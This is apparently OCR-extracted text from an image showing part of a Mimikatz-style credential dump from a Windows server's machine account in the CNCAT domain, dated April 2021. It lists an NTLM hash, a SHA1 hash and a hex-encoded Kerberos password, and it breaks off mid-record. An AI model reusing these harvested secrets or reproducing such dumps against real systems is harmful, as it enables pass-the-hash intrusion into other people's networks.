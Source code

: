         * Username : 12SERVER-EX13$

        * Domain  : CNCAT

        * Password : (null)

       kerberos:     

        * Username : 12SERVER-EX13$

        * Domain  : cncat.cc

        * Password : de 6b 04 cc 34 dc 30 d8 00 ec 9449 84 42 0b 33 7e ba 79 0e ac 56 99 64 ea 10 c8 95 95 55 a4 be 46 42 e6 5a 206e 58 f8 58 bc 35 56 6f ec ad 5a c6 b7 df 2f 1d dc 6c a0 c2 be ff 85 40 45 8d27 86 10 da 8b 48 8e c8 33 b2 23 9f 02 67 c4 06 61 33 1e f7 87 81 e4 0a bc 9158 63 b5 64 c5 27 53 1b a2 1e 1e 3c 4e bc e0 8b 1c 0c 03 60 08 bd 51 11 b6 7267 28 2c 9f e7 ee 1a fa bb 71 15 a6 a1 5d 2a 27 9f dd 11 22 b3 05 8e c3 03 8fc1 79 64 c0 d3 9f a4 93 c1 60 e7 4a 30 e4 fb c0 4b 43 da de 30 2c 9c 2e e8 93d1 1c 6b 3b eb a6 d7 a2 8e 51 f1 20 c9 50 95 e0 84 0d 64 f7 1b 73 11 0b fd bb0b 89 f1 e6 dc 8f e2 71 83 b0 16 42 f0 b7 29 3a c7 2e ae c8 5e c0 6e e8 96 dfa7 52 b8 f3 22 2d fd 9d 99 36 b3 d2 3e 7b e9 54 a5 ab 23 ce 4f

       ssp:

       credman:     

Authentication Id : 0 ; 996(00000000:000003e4)

Session           : Service from 0

User Name         : 12SERVER-EX13$

Domain            : CNCAT

Logon Server      : (null)

Logon Time        : 2021/4/28 19:52:09

SID               : S-1-5-20

       msv:     

        [00000003] Primary

        * Username : 12SERVER-EX13$

        * Domain  : CNCAT

        * NTLM    : 7e0ebfdc16be2cf7652792713162d817

        * SHA1    : a413aeaf7935bab126af11ad8a1221651217e014

       tspkg:   

       wdigest:

        * Username : 12SERVER-EX13$

        * Domain  : CNCAT

        * Password : (null)

       kerberos:     

        * Username : 12server-ex13$
